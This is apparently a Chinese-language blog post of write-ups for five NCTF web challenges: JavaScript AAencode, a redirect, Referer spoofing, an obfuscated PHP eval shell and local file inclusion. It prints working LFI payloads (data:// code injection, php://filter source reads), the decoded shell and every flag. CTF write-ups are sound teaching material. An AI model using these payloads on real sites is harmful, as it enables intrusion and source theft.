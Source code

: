 ```yaml
---
layout: post
title: NCTF Web 5 题题解（Part 1）
tags: NCTF Write-up Web
---
```


* 目录: 
{:toc}

### 100 AAencode  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/*bgOs61*KFAG82G7BTNqrGItjt.ktJ5DEHDJE5kTwZ0!/r/dLAAAAAAAAAA){: width="80%"}  

	> javascript aaencode  
	> [http://115.28.150.176/aaencode.txt](http://115.28.150.176/aaencode.txt)  

* 题解:  
都提示是 JavaScript 了, 用浏览器的 console 跑一下试试看:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/7emM69dnS7ZiLfZmcGMc1mk0P7QN6H3wAiN4oNL7DWc!/r/dK0AAAAAAAAA){: width="100%"}  

* flag: nctf{javascript_aaencode}
<hr>

### 100 单身二十年  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/WYGRVUjGV*Seie8dVvZK0XeWSXdMghMl8ZSTwg7P1MQ!/r/dNwAAAAAAAAA){: width="80%"}  

	> 这题可以靠技术也可以靠手速！  
	> 老夫单身二十年，自然靠的是手速！  
	> 题目地址: [撸了他！](http://chinalover.sinaapp.com/web8/)  

* 题解:  
点第一个页面的链接, 仔细看的话能看出有跳转, 我手速真的很快, 尝试了一次就把中间那张图给截下来了:   
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/UJ8QZWkWjyr2Hb3Hn2cJ13jGbavVW50o85ufVdzGJ.4!/r/dHwBAAAAAAAA){: width="100%"}  
有跳转当然要用拦截工具了, Fiddler F11:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/4AA5qT.T.175*MSDjRHzZVQth8MBb0ABbzmuMMbdeUg!/r/dAYBAAAAAAAA){: width="100%"}  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/n1ROW56tMZs59r2zFaCAfmgjNv13*X3dYTDmlSiKLwk!/r/dMYAAAAAAAAA){: width="100%"}  

* flag: nctf{yougotit_script_now}   
<hr>

### 100 你从哪里来  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/v*Uij.KE8SrMaM1tLIqjOglZk28IiVgEd.oIMsd3nn8!/r/dAsBAAAAAAAA){: width="80%"}  

	> 你是从 google 来的吗？   
	> [http://115.28.150.176/referer/index.php](http://115.28.150.176/referer/index.php)

* 题解:   
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/hTd7cZZ8kw.YdL*gWelw5gm1kdJ*X77oh2Igujh.I5U!/r/dNwAAAAAAAAA){: width="80%"}  
很明显, 改 HTTP requests 中的 `referer`, 可以用 firefox 的 tamper data 插件, 这里还是用 fiddler.    
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/uNpijEofdO0qmGhtguDly8WZGWnz91dZqLYAcHC3QjA!/r/dAoBAAAAAAAA){: width="100%"}  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/iv38eCVvlcyWeP23wuUlYRV7KIAmzB0eVfMN7SEUQvk!/r/dHwBAAAAAAAA){: width="100%"}  

* flag: nctf{http_referer}   
<hr>

### 100 php decode  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/1mXB.qFELl2GEUfhE6ulQMICaWnfaI1LQ7fTvxPlYEk!/r/dAoBAAAAAAAA){: width="80%"}  

	> 见到的一个类似编码的shell，请解码   
	> 
	> ```php   
	<?php
	function CLsI($ZzvSWE) {
		$ZzvSWE = gzinflate(base64_decode($ZzvSWE));
		for ($i = 0; $i < strlen($ZzvSWE); $i++) {
			$ZzvSWE[$i] = chr(ord($ZzvSWE[$i]) - 1);
		}
		return $ZzvSWE;
	}
	eval(CLsI("+7DnQGFmYVZ+eoGmlg0fd3puUoZ1fkppek1GdVZhQnJSSZq5aUImGNQBAA=="));
	?>
	> ```  
	> 

* 题解:   
	首先运行题目给的代码, 结果解释器报错:  

	> Parse error: syntax error, unexpected '{' in D:\Course\CTF\NCTF\php decode\decode.php(16) : eval()'d code on line 2  

	那么回来看看出错的代码: `eval(CLsI("+7DnQGFmYVZ+eoGmlg0fd3puUoZ1fkppek1GdVZhQnJSSZq5aUImGNQBAA=="));` 
	eval 的参数必须是一个合法的 php 语句, 那么还是先把 eval 的参数输出看看再说, 代码改成:  
	`echo CLsI("+7DnQGFmYVZ+eoGmlg0fd3puUoZ1fkppek1GdVZhQnJSSZq5aUImGNQBAA=="));`, 结果输出如下:

	> 锘縫hpinfo();  
	> flag:nctf{gzip_base64_hhhhhh}  

* flag: nctf{gzip_base64_hhhhhh}  
<hr>

### 150 文件包含  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/tIHjsm6TX.J6ADSq701wt770uWEjWxbA3IpLKPVB504!/r/dK0AAAAAAAAA){: width="80%"}  

	> 没错 这就是传说中的LFI  
	> 传送门[点我带你飞](http://4.chinalover.sinaapp.com/web7/index.php)  
	>   
	> TIPS:[http://drops.wooyun.org/tips/3827](http://drops.wooyun.org/tips/3827)  

* 题解:   
	题目是文件包含, 而且是 LFI, 即本地文件包含, 那应该就不是远程包含一句话这类思路了, 先试试直接写 shell 呢?
	[http://4.chinalover.sinaapp.com/web7/index.php?file=data:text/plain,<?php phpinfo();?>](http://4.chinalover.sinaapp.com/web7/index.php?file=data:text/plain,<?php phpinfo();?>)  
	结果是:  

	> Oh no!  

	嗯...试试读源码, php 有个特殊协议(其实我也不会php, 提示给的乌云drops很好, 但是乌云已经...:(, php://filter 用于数据流打开时的筛选过滤应用, 如果通过它读取 php 文件并编码成不能正常运行的形式, 就可以得到编码后的源码了, 试试?
	[http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/read=convert.base64-encode/resource=index.php](http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/read=convert.base64-encode/resource=index.php)
	结果是:  

	> PGh0bWw+CiAgICA8dGl0bGU+YXNkZjwvdGl0bGU+CiAgICAKPD9waHAKCWVycm9yX3JlcG9ydGluZygwKTsKCWlmKCEkX0dFVFtmaWxlXSl7ZWNobyAnPGEgaHJlZj0iLi9pbmRleC5waHA/ZmlsZT1zaG93LnBocCI+Y2xpY2sgbWU/IG5vPC9hPic7fQoJJGZpbGU9JF9HRVRbJ2ZpbGUnXTsKCWlmKHN0cnN0cigkZmlsZSwiLi4vIil8fHN0cmlzdHIoJGZpbGUsICJ0cCIpfHxzdHJpc3RyKCRmaWxlLCJpbnB1dCIpfHxzdHJpc3RyKCRmaWxlLCJkYXRhIikpewoJCWVjaG8gIk9oIG5vISI7CgkJZXhpdCgpOwoJfQoJaW5jbHVkZSgkZmlsZSk7IAovL2ZsYWc6bmN0ZntlZHVsY25pX2VsaWZfbGFjb2xfc2lfc2lodH0KCj8+CjwvaHRtbD4=  

	base64 解码后:

	> ```  
	> <html>  
	> <title>asdf</title>  
    >  
	> <?php  
	> error_reporting(0);  
	> if(!$_GET[file]){echo '<a href="./index.php?file=show.php">click me? no</a>';}  
	> $file=$_GET['file'];  
	> if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){  
	>     echo "Oh no!";  
	> exit();  
	> }  
	> include($file);   
	> //flag:nctf{edulcni_elif_lacol_si_siht}  
	> 
	> ?>  
	> </html>  
	> ```  

* flag: nctf{edulcni_elif_lacol_si_siht}  
